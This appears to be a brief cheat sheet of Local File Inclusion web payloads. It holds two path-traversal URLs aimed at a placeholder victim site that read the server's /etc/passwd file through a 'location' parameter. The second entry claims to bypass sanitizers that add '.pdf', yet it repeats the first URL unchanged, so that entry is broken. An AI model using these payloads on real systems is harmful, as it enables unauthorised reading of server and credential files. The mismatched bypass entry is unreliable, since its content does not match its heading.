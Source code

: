 # Local File Inclusions

### Simple LFI
```html
http://<victim-site>/index.php?location=../../../etc/passwd
```

### If the LFI vuln sanitizes for .pdf or put that to the end.
```html
http://<victim-site>/index.php?location=../../../etc/passwd
```
